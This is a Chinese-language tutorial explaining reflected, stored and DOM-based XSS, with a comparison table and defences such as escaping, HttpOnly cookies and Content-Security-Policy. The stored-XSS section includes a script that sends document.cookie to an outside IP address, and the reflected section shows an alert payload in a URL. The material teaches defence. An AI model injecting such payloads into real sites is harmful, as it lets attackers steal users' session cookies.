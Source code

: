 ```yaml
---
meta:
  - name: description
    content: 前端跨站脚本攻击
  - name: keywords
    content: 前端跨站脚本攻击,XSS,前端,攻击,
---
```

# 跨站脚本攻击

## 介绍

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”


xss攻击的核心方式是脚本。这些脚本通常是javascript脚本，从这个层面来说javascript能做的事情，xss攻击一般都能做到。比如：

+ 通过 document.cookie 盗取 cookie中的信息

+ 使用 js或 css破坏页面正常的结构与样式

+ 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）

+ dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。

+ 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。

+ 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力



## 分类
### 反射型xss
`反射型xss`又被称为`非持久型xss`。当用户访问一个带有xss攻击代码的url请求的时候，向服务器发送请求，服务器接受请求后处理，并把客户端发送的xss攻击代码返回给客户端，客户端解析这段代码的时候，就有可能遭受xss攻击

用户浏览某个网站A，攻击者在这个网站中嵌入了恶意的脚本用于盗取用户的cookie等信息 攻击者诱导用户触发xss攻击（比如诱导用户点击非法链接），当用户触发了xss攻击的时候就会将自己的用户信息发送给攻击者 攻击者在获取用户的cookie后，就有可能盗用用户的身份信息进行非法操作

`http://xxx/search?keyword="><script>alert('XSS');</script>`

**反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等**

数据流向： 浏览器 -> 后端 -> 浏览器


### 存储型xss
`存储型xss`又被称为`持久化的xss`。也是最危险的xss攻击方式。一旦攻击成功，就有可能造成大规模的xss攻击，也就是我们通常所说的xss蠕虫。

存储型xss攻击的一般原理是，客户端将带有xss攻击的数据发送给服务器，服务器接收并存储在数据库。当用户下次再访问这个页面的时候，服务器会读取数据库并将之前的xss代码取出发送给浏览器。浏览器解析这段数据的时候，就会遭受xss攻击。

所以，反射型xss攻击一般需要用户手动触发，而存储型xss攻击却是能够自动触发的。一般来说，反射型xss攻击的危害要比存储型xss攻击的危害要小的多。

```js
// 比如通过评论输入框将下面代码提交，之后会执行下面代码
<script type="text/javascript">
document.write("<img src='http://192.168.59.129:10086?c=" + escape(document.cookie) + "'>")
</script>
```

**存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里**

数据流向： 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器



### DOM型xss
我们可以通过JavaScript来操作dom树，所以，xss攻击也是能够做到这一点的。dom型xss攻击最大的危害就是改变我们网页的布局。这种类型的xss是不需要和服务器进行交互的，只发生在客户端处理阶段。比如一段xss攻击的代码是：
```js
const div = document.createElement('div')
div.innerText = 'xss攻击的代码'
document.body.appendChild(div)
```

**反射型xss和dom-xss都需要在url加入js代码才能够触发**


数据流向： URL -> 浏览器

### 对比总结
| 类型 | 反射型 | 存储型 | DOM型 |
| --- | --- | ---| ---|
| 触发过程 | 正常用户访问携带XSS脚本的URL | 1.黑客构造XSS脚本<br/>2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL |
| 数据存储 | URL| 数据库 | URL |
| 谁来输出 | 后端WEB应用程序 | 后端WEB应用程序 | 前端JS |
| 输出位置 | HTTP响应中 | HTTP响应中 | 动态构建DOM节点 |



## 防范措施
应对XSS攻击的主要手段还是编码与过滤两种，`编码`用于将特殊的符号 "<、>、&、'、""进行html转义，而`过滤`则是阻止特定的标记、属性、事件



### 转义html
+ 使用encodeURIComponent对url中的参数进行编码(反射型xss)

+ 服务器接收到数据，在存储到数据库之前，进行转义/过滤

+ 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤

### HTTP-only Cookie
`HTTP-only`禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作

如果某一个Cookie 选项被设置成 HttpOnly = true 的话，那此Cookie 只能通过服务器端修改，Js 是操作不了的（无法读写这个cookie）

### Content-Security-Policy
在服务端使用HTTP的`Content-Security-Policy`头部来指定策略，或者在前端设置meta标答。例如下面的配置只允许加载同域下的资源

### innerText/textContent
+ 在使用 `.innerHTML、.outerHTML、document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等

+ 如果用 Vue/React 技术栈，并且不使用 `v-html/dangerouslySetInnerHTML` 功能，就在前端 render 阶段避免 `innerHTML、outerHTML` 的 XSS 隐患


### 验证码
防止脚本冒充用户提交危险操作


## 参考资料
[什么是XSS攻击，XSS攻击可以分为哪几类？如何防范XSS攻击？](https://github.com/YvetteLau/Step-By-Step/issues/18)

[web安全之xss攻击](https://zhaosaisai.com/blog/2018/web%E5%AE%89%E5%85%A8%E4%B9%8Bxss%E6%94%BB%E5%87%BB.html)






